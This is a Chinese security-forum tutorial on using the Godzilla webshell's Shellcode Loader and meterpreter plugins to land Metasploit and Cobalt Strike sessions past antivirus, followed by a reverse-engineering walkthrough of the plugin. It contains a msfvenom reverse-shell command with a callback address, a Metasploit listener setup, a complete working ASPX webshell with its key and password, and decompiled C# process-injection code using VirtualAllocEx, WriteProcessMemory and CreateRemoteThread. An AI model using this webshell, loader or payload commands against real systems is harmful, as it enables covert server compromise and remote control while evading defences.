# 用哥斯拉插件零基础免杀上线msf和cs-先知社区

> **来源**: https://xz.aliyun.com/news/17393  
> **文章ID**: 17393

---

# 一、前言

深层次的免杀对于部分人来说太难学，各种加载器让人眼花缭乱，PE结构的剖析更是让人头大，PEB的各种花式利用令人瞠目结舌，但是有一种简单易上手的方法——用哥斯拉的插件Shellcode Loader和meterpreter，可以让免杀零基础的人直接上线到cs或msf。本文分为具体使用和原理分析，原理分析很粗糙，看个大概就行，没兴趣的可以不用看。

# 二、具体使用

使用方法很简单，但是免杀效果很强大，因为哥斯拉到的技术还是比较高超的。

⚠**注意**：在本文中不会介绍如何对webshell进行免杀处理！

## 2.1 使用shellcode loader插件上线msf和cs ：

### MSF

1. 用msf生成一个hex格式的shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.32 lport=8001 -f hex
```



1. 将shellcode粘贴到shellcode hex中



1. 点击load



1. 点击run直接上线msf

下面是测试火绒的





这个是360的





这个是defender的





可以执行getsystem命令



### CS

1. 因为cs没有hex格式的shellcode，所以我弄了一个py脚本。选择的是C语言x64版本的shellcode

```
buf = b"\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41................"

data = buf.hex()

print(data)
```

1. 与msf的上线方式一样，粘贴复制shellcode、load、run



## 2 .2 使用哥斯拉的meterpreter插件

1. 根据提示，在攻击机的kali上设置msf的监听器和payload。请注意，哥斯拉要配置kali的ip和端口



```
msfconsole 
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 4444
run
```

1. msf配置监听ip和port后运行



1. 在哥斯拉界面中点击go

![[Pasted image 20240712111031.png]]

直接上线msf，可以执行getsystem命令



# 三、原理分析

对于aspx类型的webshell，shellcode loader是由AsmLoder.dll完成的，这个dll是由C# 写的的，所以可以很简单用各种工具进行反编译，这里我用的是dnspy：[dnSpy/dnSpy: .NET debugger and assembly editor](https://github.com/dnSpy/dnSpy)，这个工具的强大无需多言 。而对于jsp类型的webshell，shellcode loader是由java写的，然后编译成class文件，可以使用IDEA直接反编译查看源代码。

无论aspx还是jsp类型的webshell，它们的shellcode loader实现的原理都是由语言提供的反射机制完成shellcode加载上线的，对于反射机制可能做过java和C# 开发的朋友可能会很熟悉。但是本人开发水平很低，反射机制也说不出个所以然，还请读者自行查阅网上资料。

在开展哥斯拉工具二次开发前，建议先完成反编译环境的基础配置。通过反编译原始jar包获取源码后，若仅需静态分析 `ShellcodeLoader` 功能实现原理，可直接使用IntelliJ IDEA等IDE查看反编译生成的代码结构，利用代码搜索和跳转功能即可完成核心逻辑分析。若需要进行动态调试、字节码修改或功能扩展开发，则需构建完整的可调试工程环境，建议采用反编译器进行带元数据保留的反向工程，搭建支持断点调试的项目框架，具体配置方法可参考相关技术文档或我的博客文章获取详细指引。

## 3.1 ShellcodeLoader类

接下来，我将主要分析 ASP.NET类型的webshell是如何通过 `ShellcodeLoader` 加载Shellcode的。

用ide打开哥斯拉项目后，我们找到这个 `shells\plugins\cshap\ShellcodeLoader` 路径下的 `ShellcodeLoader` 类，这个类负责完成将CS或者MSF等位置无关的Shellcode加载到目标主机中的内存中。


`ShellcodeLoader` 类中的`load`方法负责加载 `assets\AsmLoader.dll`，并使用 `CShapShell.include()` 方法配合`Payload.dll`中的`include`方法动态加载`AsmLoader.dll` 程序集，而 `AsmLoader.dll` 才是负责具体实现shellcode注入。



我们先分析一下这段代码的主要方法，首先使用 `getResourceAsStream` 方法从内置资源路径读取 `AsmLoader.dll` 二进制流，这个文件在 `shells\plugins\cshap\assets\AsmLoader.dll`



然后使用自实现的工具类 `functions` 的 `readInputStream` 方法将二进制流转换为字节数组，它的代码如下



`CShapShell.include()` 内部通过 `evalFunc` 方法发起包含操作请求，这是一个通用的远程调用函数，主要的作用就是调用放置在目标服务器的 `Payload.dll` 中封装的函数。将程序集的名称 `codeName` 设置为 `AsmLoader.Run`，将程序集 `AsmLoader.dll` 二进制数据存储在 `binCode`  中，最后用用 `parameters` 进行封装，再将请求发送到远程服务器，并从服务器获取响应。具体代码看下图





`Webshell` 接收到请求后，就会使用 `LY` 对象中的 `include` 方法，该方法的作用是将一个 DLL（或其他二进制代码）传递给远程服务器/目标，以便在远程执行或加载。



## 3.2 WebShell和Payload剖析

所以，我们传送过去的字节数据是如何执行的呢？要回答这一个问题，就必须去详细分析aspx的哥斯拉木马才能一探究竟。aspx的webshell代码如下。

```
<%@ Page Language="C#"%><%try
{
    string key = "3c6e0b8a9c15224a";
    string pass = "pass";
    string md5 = System.BitConverter.ToString(new System.Security.Cryptography.MD5CryptoServiceProvider().ComputeHash(System.Text.Encoding.Default.GetBytes(pass + key))).Replace("-", "").ToLower();

    byte[] data = System.Convert.FromBase64String(Context.Request[pass]);
    data = new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(data, 0, data.Length);

    if (Context.Session["payload"] == null)
    {
        Context.Session["payload"] = (System.Reflection.Assembly)typeof(System.Reflection.Assembly).GetMethod("Load", new System.Type[] { typeof(byte[]) }).Invoke(null, new object[] { data });
    }
    else
    {
        System.IO.MemoryStream outStream = new System.IO.MemoryStream();
        object o = ((System.Reflection.Assembly)Context.Session["payload"]).CreateInstance("LY");
        o.Equals(Context);
        o.Equals(outStream);
        o.Equals(data);
        o.ToString();
        byte[] r = outStream.ToArray();
        string left = md5.Substring(0, 5);
        string replacedString = "var Rebdsek_config=".Replace("bdsek", left);
        Context.Response.ContentType = "text/html";
        Context.Response.Write("<!DOCTYPE html>");
        Context.Response.Write("<html lang="en">");
        Context.Response.Write("<head>");
        Context.Response.Write("<meta charset="UTF-8">");
        Context.Response.Write("<title>GetConfigKey</title>");
        Context.Response.Write("</head>");
        Context.Response.Write("<body>");
        Context.Response.Write("<script>");
        Context.Response.Write("<!-- Baidu Button BEGIN");
        Context.Response.Write("<script type="text/javascript" id="bdshare_js" data="type=slide&amp;img=8&amp;pos=right&amp;uid=6537022" ></script>");
        Context.Response.Write("<script type="text/javascript" id="bdshell_js"></script>");
        Context.Response.Write("<script type="text/javascript">");
        Context.Response.Write(replacedString);
        Context.Response.Write(System.Convert.ToBase64String(new System.Security.Cryptography.RijndaelManaged().CreateEncryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(r, 0, r.Length)));
        Context.Response.Write(";");
        Context.Response.Write("document.getElementById("bdshell_js").src = "http://bdimg.share.baidu.com/static/js/shell_v2.js?cdnversion=" + Math.ceil(new Date()/3600000);");
        Context.Response.Write("</script>");
        Context.Response.Write("-->");
        Context.Response.Write("</script>");
        Context.Response.Write("</body>");
        Context.Response.Write("</html>");

    }
}
catch (System.Exception) { }
%>
```

这段 ASP.NET WebShell 代码大致完成如下的工作

1. **密钥和密码生成**：代码定义了一个密钥 `key` 和密码 `pass`，并通过 MD5 哈希算法生成了一个校验值（`md5`）。密钥 `key` 是一个固定值 `"3c6e0b8a9c15224a"`，并且使用密码 `pass` 和这个密钥生成了 MD5 哈希值。

```
string key = "3c6e0b8a9c15224a";
string pass = "pass";
string md5 = System.BitConverter.ToString(new System.Security.Cryptography.MD5CryptoServiceProvider().ComputeHash(System.Text.Encoding.Default.GetBytes(pass + key))).Replace("-", "").ToLower();
```

1. **Base64 解码和 Rijndael 解密**：从 HTTP 请求中获取参数（使用 `pass` 作为键），并将其值视为 Base64 编码的数据。使用 Rijndael 加密算法（旧版的AES算法）将 Base64 解码后的数据解密，密钥和 IV（初始化向量）都为 `key`。

```
byte[] data = System.Convert.FromBase64String(Context.Request[pass]);
data = new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(data, 0, data.Length);
```

1. **反射加载程序集**：如果当前会话中没有已加载的 `payload`，则通过反射使用 `Assembly.Load(byte[] rawAssembly)` 将解密的二进制数据作为程序集加载到内存中，并存储在会话变量 `Context.Session["payload"]` 中。

```
        Context.Session["payload"] = (System.Reflection.Assembly)typeof(System.Reflection.Assembly).GetMethod("Load", new System.Type[] { typeof(byte[]) }).Invoke(null, new object[] { data });
```

分步拆分

```
1. 通过反射获取的 Assembly.Load(byte[]) 方法
   var loadMethod = Assembly.GetMethod("Load", new[]{ typeof(byte[]) });

2. 从字节数组 data 中加载程序集
   var EvilAssembly = loadMethod.Invoke(null, new[]{ data });

3. 会话持久化攻击载荷：
   Context.Session["payload"] = EvilAssembly;
   // 使恶意程序集在会话周期内常驻内存
```

1. **实例化和运行类**`LY`**的对象**：

如果 `payload` 已经加载，该代码通过反射创建一个名为 `LY` 的类的实例，并依次调用 `Equals` 方法，传递 `Context`（HTTP 请求上下文）、`MemoryStream` 对象以及解密后的二进制数据。

所以这个 `LY` 类出自于哪里呢？如果对哥斯拉连接webshell进行分析过的朋友可能会了解到，这个 `LY` 类作为哥斯拉的C# payload核心实现，`LY` 类是写在了 `shells\payloads\csharp\assets\payload.dll` ，而这个payload.dll里代码实现了WebShell的核心功能，包括文件系统操作（读写/删除/上传）、远程命令执行、数据库渗透（SQL Server）、动态加载恶意插件，并通过内存驻留和GZip流量伪装实现隐蔽通信。





你可以理解payload.dll就相当于CS的beacon.dll，在远控中称之为**植入物（Implant）**。我们将webshell放置到目标服务器上后，通过连接webshell，再通过网络传输的方式将payload.dll加载到目标内存中，就如上文提到的那样，payload.dll存在了context.session中，这样才能完成后续的命令&控制。

你可以在本地创建一个iis服务器，在这个服务器上放置aspx类型的webshell，并用哥斯拉连接，然后用dnspy工具附加到w3wp.exe进程中，具体看 [dnSpy反编译调试工具如何调试dll文件 - 小小邪 - 博客园](https://www.cnblogs.com/xielong/p/16385258.html)。可以看到哥斯拉连接webshell后就在目标服务器上加载了payload.dll



我们再去看看 `Equals` 方法到底完成了什么，可以看见 `Equals` 内部根据传入对象的类型分别设置 `LY` 的核心属性，隐蔽地完成了恶意WebShell的核心环境初始化。



紧接着，通过调用 `ToString` 方法，作为恶意后门的主入口，负责解析HTTP请求、执行指令并返回加密响应。通过 `formatParameter` 方法解析请求的数据，并将其存储到 `parameters` 哈希表中然后，并通过 `run()` 方法动态调用其他功能模块（如文件操作、命令执行）。



`run` 方法可以说是Webshell的调用中枢了，其主要是通过反射机制调用 `LY` 类的指定方法，如 `getBasicsInfo`、`getFile` ，若提供 `evalClassName`，则从 `sessionTable` 加载 Assembly 并创建实例，执行插件逻辑。在本例中就是通过反射机制调用了 `LY` 类中的include方法将AsmLoader.dll程序集加载到内存中。

```
public byte[] run()
{
    string text = this.get("evalClassName");
    string text2 = this.get("methodName");
    if (text2 != null)
    {
        try
        {
            if (text == null)
            {
                MethodInfo method = base.GetType().GetMethod(text2, new Type[0]);
                if (method != null && method.ReturnType.IsAssignableFrom(typeof(byte[])))
                {
                    MethodBase methodBase = method;
                    object[] array = new Type[0];
                    return (byte[])methodBase.Invoke(this, array);
                }
                return this.stringToByteArray("method is null");
            }
            else
            {
                Assembly assembly = (Assembly)(this.sessionTable.ContainsKey(text) ? this.sessionTable[text] : null);
                if (assembly == null)
                {
                    return this.stringToByteArray("eval type is null");
                }
                object obj = assembly.CreateInstance(text);
                if (obj == null)
                {
                    return this.stringToByteArray("Unable to create type");
                }
                obj.Equals(this.parameters);
                string text3 = obj.ToString();
                if (this.parameters.ContainsKey("result"))
                {
                    return (byte[])this.parameters["result"];
                }
                if (text3.Trim().Length > 0)
                {
                    return this.stringToByteArray(text3);
                }
                return this.stringToByteArray("The plugin did not return");
            }
        }
        catch (Exception ex)
        {
            return this.stringToByteArray(ex.ToString());
        }
    }
    return this.stringToByteArray("method is null");
}
```

当我们点击"load"后，哥斯拉会将"AsmLoader.dll"这个插件加载到目标服务器上。



在这里就不过多介绍payload.dll代码，感兴趣的读取可以自行分析，如果有机会我还会详细的研究一下哥斯拉从上线到执行命令再返回结果的整个流程，感觉像是挖了一个大坑。

1. **加密和响应**：将 `outStream` 中的数据转化为字节数组，然后再次使用 Rijndael 加密。使用 Base64 编码加密后的数据并将其嵌入在 HTML 响应中，返回给客户端。
2. **动态生成的 JavaScript**：在 HTML 响应中包含了 Baidu 分享的 JavaScript，同时生成了一个动态的 JavaScript 片段，将加密后的数据插入到页面中。

## 3.3 AsmLoader.dll

假设AsmLoader.dll已经加载到了目标内存中，即存放于sessionTable中，这时我们点击run方法，会触发鼠标点击事件，由 `runButtonClick` 完成事件的处理。





下面的这段代码主要就是获取文本区域的hex格式的shellcode，然后就是将其转换为字节数组作为 `runShellcode` 方法的参数。



跟进 `runShellcode` 方法，发现是不断的调用重载的 `runShellcode` 方法





继续跟进，发现最后一个 `runShellcode` 的代码逻辑是构造请求参数（`excuteFile`、`type`、 `shellcode`、`readWaitTime`），其中 `type="start"` 或 `type="local"` 是控制注入方式（启动新进程或注入当前进程），其目的就是调用目标程序集 `AsmLoader.Run` 里的 `AsmLoader.Run` 类中的run方法。



`this.getClassName`会获取类的名称，根据调式可知，整个类型的名称是`AsmLoader.Run`



当执行到evalfunc方法时 `evalClassName` 不为空，Payload.dll中的run方法的执行流如下图所示，主要就是初始化参数，`LY.run` 的执行流会转到else语句，从sessionTable中获取名为 `AsmLoader.Run` 的的程序集，使用CreateInstance方法创建一个名为 `AsmLoader.Run` 的实例对象。然后调用Run.Equals()进行初始化，紧接着调用Run类中的ToString方法，这个方法应该就是程序的入口点了。

**注**：实际上evalFunc的"run"参数并没有用到，在完成AsmLoader.Run实例化后，就直接调用了ToString方法。本人水平实在有限，有没有大佬告诉我是不是这样啊 



终于整个攻击过程来到尾声，我们即将进入反编译后的 `AsmLoader.dll` 代码中。首先分析Run类中的ToString方法，可以其内部调用了run方法。



我们转头去分析run方法，可以看到如果"excuteFile"的值不为空则会执行loadAsmBin方法，excuteFile的值默认是 `C:\Windows\System32
undll32.exe`。如果"excuteFile"为空则会在本地进程使用经典的 `创建线程注入` 的方式执行shellcode。



既然"excuteFile"的值默认不为空，则我们具体分析一下该代码是如何完成shellcode注入的

```
public static string loadAsmBin(string commandLine, byte[] asm, int readWait)
{
    byte[] array = new byte[AsmLoader.fix];
    new Random().NextBytes(array);
    byte[] array2 = new byte[(long)asm.Length + AsmLoader.fix];
    Array.Copy(array, array2, array.Length);
    Array.Copy(asm, 0L, array2, AsmLoader.fix, (long)asm.Length);
    asm = array2;
    int dwSize = asm.Length;
    AsmLoader.StartupInfo startupInfo = new AsmLoader.StartupInfo();
    startupInfo.dwFlags |= AsmLoader.STARTF_USESTDHANDLES;
    startupInfo.cb = Marshal.SizeOf(startupInfo);
    IntPtr zero = IntPtr.Zero;
    IntPtr zero2 = IntPtr.Zero;
    AsmLoader.SECURITY_ATTRIBUTES security_ATTRIBUTES = default(AsmLoader.SECURITY_ATTRIBUTES);
    security_ATTRIBUTES.nLength = Marshal.SizeOf(typeof(AsmLoader.SECURITY_ATTRIBUTES));
    security_ATTRIBUTES.bInheritHandle = 1;
    security_ATTRIBUTES.lpSecurityDescriptor = IntPtr.Zero;
    if (!AsmLoader.CreatePipe(ref zero, ref zero2, ref security_ATTRIBUTES, 0))
    {
        return string.Format("Cannot create pipe errcode:{0}
", AsmLoader.GetLastError());
    }
    AsmLoader.SetHandleInformation(zero, AsmLoader.HANDLE_FLAG_INHERIT, 0);
    startupInfo.hStdOutput = zero2;
    AsmLoader.ProcessInformation processInformation;
    if (!(AsmLoader.CreateProcessA(null, commandLine, null, null, true, AsmLoader.CreateProcessFlags.CREATE_SUSPENDED | AsmLoader.CreateProcessFlags.CREATE_NO_WINDOW, IntPtr.Zero, null, startupInfo, out processInformation) != IntPtr.Zero))
    {
        AsmLoader.CloseHandle(zero2);
        AsmLoader.CloseHandle(zero);
        return string.Format("Cannot create process errcode:{0}
", AsmLoader.GetLastError());
    }
    AsmLoader.CloseHandle(zero2);
    IntPtr hProcess = processInformation.hProcess;
    IntPtr intPtr = AsmLoader.VirtualAllocEx(hProcess, new IntPtr(0), dwSize, AsmLoader.MEM_COMMIT, AsmLoader.PAGE_EXECUTE_READWRITE);
    if (!(intPtr != IntPtr.Zero))
    {
        AsmLoader.TerminateProcess(hProcess, 0);
        AsmLoader.CloseHandle(zero2);
        AsmLoader.CloseHandle(zero);
        AsmLoader.CloseHandle(hProcess);
        return string.Format("Cannot alloc memory errcode:{0}
", AsmLoader.GetLastError());
    }
    int lpNumberOfBytesWritten = 0;
    if (!AsmLoader.WriteProcessMemory(hProcess, intPtr, asm, new IntPtr(asm.Length), lpNumberOfBytesWritten))
    {
        AsmLoader.TerminateProcess(hProcess, 0);
        AsmLoader.CloseHandle(zero2);
        AsmLoader.CloseHandle(zero);
        AsmLoader.CloseHandle(hProcess);
        return string.Format("Cannot WriteProcessMemory errcode:{0}
", AsmLoader.GetLastError());
    }
    Thread.Sleep(200);
    IntPtr intPtr2 = AsmLoader.CreateRemoteThread(hProcess, IntPtr.Zero, 0U, new IntPtr(intPtr.ToInt64() + AsmLoader.fix), IntPtr.Zero, 0U, IntPtr.Zero);
    if (intPtr2 != IntPtr.Zero)
    {
        Thread.Sleep(150);
        string @string = Encoding.Default.GetString(AsmLoader.readFileAndWait(zero, readWait));
        AsmLoader.CloseHandle(zero2);
        AsmLoader.CloseHandle(zero);
        AsmLoader.CloseHandle(hProcess);
        AsmLoader.CloseHandle(intPtr2);
        return @string;
    }
    AsmLoader.TerminateProcess(hProcess, 0);
    AsmLoader.CloseHandle(zero2);
    AsmLoader.CloseHandle(zero);
    AsmLoader.CloseHandle(hProcess);
    return string.Format("Cannot CreateRemoteThread errcode:{0}
", AsmLoader.GetLastError());
}
```

通过代码的分析，可以发现，loadAsmBin实现了 `创建远程线程注入` 的方式注入并执行了shellcode。其中commandLine是被创建进程的绝对路径，asm就是需要注入的shellcode。

`创建远程线程注入` 的核心链就是

1. 根据commandLine并使用 `CreateProcessA` 创建一个挂起进程
2. 使用 `VirtualAllocEx` 在远程进程的内存中申请一块RWX的内存区域。
3. 使用 `WriteProcessMemory` 将shellcode写入刚刚申请的内存区域
4. 使用`CreateRemoteThread`在远程进程中创建一个线程执行shellcode

至此，整个shellcode loader的攻击过程就大致叙述完成了，当然文章也很多错误的地方，也请大佬们指点出来。

# 四、总结

啰嗦了这么久，是什么该总结一下Shellcode Loader的整个执行过程了，其实整个攻击过程可以分为两大步，我只会介绍关键的函数

1. **加载AsmLoader**：ShellcodeLoader.load->CShapShell.include->CShapShell.evalFunc->LY.Equals->LY.ToString>->LY.run->LY.include
2. **注入Shellcode**：ShellcodeLoader.runShellcode->CShapShell.evalFunc->LY.Equals->LY.ToString->LY.run->Run.Equals->Run.ToString->Run.run->Run.ToString->Run.loadAsmBin

启示：哥斯拉（Godzilla）作为WebShell管理工具的标杆，其设计充分体现了 **"高隐蔽、强扩展、抗检测"** 的APT级攻击理念并已经过经过多年实战检验。哥斯拉的插件化架构为红队提供了高度自由的扩展能力，我们可以自己根据红队攻防的需要制作插件，只需要满足插件接口规范即可。
